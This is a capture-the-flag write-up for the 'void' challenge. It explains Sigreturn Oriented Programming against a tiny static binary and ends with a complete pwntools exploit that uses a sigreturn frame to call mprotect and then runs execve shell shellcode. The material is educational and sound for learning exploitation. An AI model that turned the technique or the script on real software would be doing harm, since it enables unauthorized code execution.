 # void - 272

This was one of the good challenges that I tried during the CTF. It was based on a technique called SROP (Sigreturn Oriented Programming). 

The purpose of this challenge was to defeat ASLR and so the binary as such consisted of only two functions - `main` and `_start` both written in simple assembly making use of syscalls. 

I'll take you through challenge and how I solved it! 

## Preliminary checks:
```
void: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, BuildID[sha1]=7fd635b160836aff1b92af6f203e3b1f160f54cc, not stripped
```
```
Canary                        : ✘ 
NX                            : ✓ 
PIE                           : ✘ 
Fortify                       : ✘ 
RelRO                         : ✘ 
gef➤  
```
As we can see, it is a 64-bit statically linked binary and only NX is enabled! So we'll need to figure out a way to inject shellcode and execute, if at all we use that approach. We will see how that can be done soon enough!
For now let's analyze the binary further! 

## Analysis:


```
gef➤  info functions
All defined functions:

Non-debugging symbols:
0x0000000000401000  main
0x0000000000401020  _start
gef➤  disas main
Dump of assembler code for function main:
   0x0000000000401000 <+0>:	mov    rax,0x0
   0x0000000000401007 <+7>:	mov    rdi,0x0
   0x000000000040100e <+14>:	mov    rsi,rsp
   0x0000000000401011 <+17>:	mov    rdx,0x7d0
   0x0000000000401018 <+24>:	syscall 
   0x000000000040101a <+26>:	ret    
End of assembler dump.
gef➤  disas _start
Dump of assembler code for function _start:
   0x0000000000401020 <+0>:	xor    eax,eax
   0x0000000000401022 <+2>:	call   0x401000 <main>
   0x0000000000401027 <+7>:	mov    rax,0x3c
   0x000000000040102e <+14>:	mov    rdi,0x0
   0x0000000000401035 <+21>:	syscall 
   0x0000000000401037 <+23>:	ret    
End of assembler dump.
gef➤  
```
Above is the assmbly dump for the two functions `main` and `_start`. As we can see there are no other functions, and the binary is statically linked, with no procedure linkage table or got address available during run time. Due to this, it becomes a challenge to obtain a leak! 
Hoewever if we dive into the program, we can see that, the `main()` function reads input from user. However, there is no stack frame defined and rsi points to the top of the stack. So eventually whatever input we give, it will remain at the top of the stack and will get executed as the next instruction.

So how do we go about it? Before discussing that, let us understand what does SROP mean and how it works.

## SROP
SROP stands for Sigreturn Oriented Programming and unlike Return Oriented Programming (ROP), it requires only two gadgets: `syscall` and a way to set `rax` register to `0xf`. In this challenge, it was quite difficult to write 0xf to rax as there weren't suitable gadgets available. But we can make use of the read syscall in main() to read 0xf bytes of input. With this, rax will store the number of characters read, i.e 0xf. Then we call syscall on it. This process comprises of the sigreturn syscall. 

The sigreturn is used to return from the signal handler and to clean up the stack frame after a signal has been unblocked. And "cleaning up the stack frame" really means it's restoring important context data that has been saved on the stack temporarily. This data includes values of all registers and some things that are unrelevant for exploitation, which is also the reason why at least 300 bytes are required for it to work. Since we can read upto 2000 bytes of data, it won't be a problem.

For exploitation sake, we make use of `SigreturnFrame()` available in pwntools. We can in fact control all registers with this gadget. Before moving onto the exploit, I'd like to remind you that NX is enabled, and since there is no libc we canot ret2libc either. So to break this barrier, we can use the mprotect syscall, to give `rwx` permissions to a certain bss section, wherein we can read our shellcode to, and execute it. As there is no stack frame defined, we add a stack frame with `asm(add rsp, 100)`, place our shellcode into it, and execute it. (The shellcode used is an execve 64-bit) 

## Exploit:
```
from pwn import *
context.arch = 'amd64'
context.log_level = "debug"

#p = remote("tamuctf.com", 443, ssl=True, sni="void")
p = process('./void')
#gdb.attach(p, gdbscript='set disassembly-flavor intel\nb*main\nc\n')

main = 0x0000000000401000
ret = 0x40101a
syscall = 0x0000000000401018
start = 0x400020

frame = SigreturnFrame()
frame.rax = 10
frame.rdi = 0x00000000400000
frame.rsi = 0x1000
frame.rdx = 0x7
frame.rsp = 0x00000000400018# ptr to start
frame.rip = syscall# mprotect syscall

chain = p64(main)

print(str(frame))
pay = p64(main) + p64(syscall) + bytes(frame)
p.send(pay)
sleep(0.1)

p.send(p64(syscall).ljust(15, b'\x00'))
sleep(0.1)
p.send(p64(start) + asm('add rsp, 100') + asm(shellcraft.sh()))
sleep(0.1)

p.interactive()
```


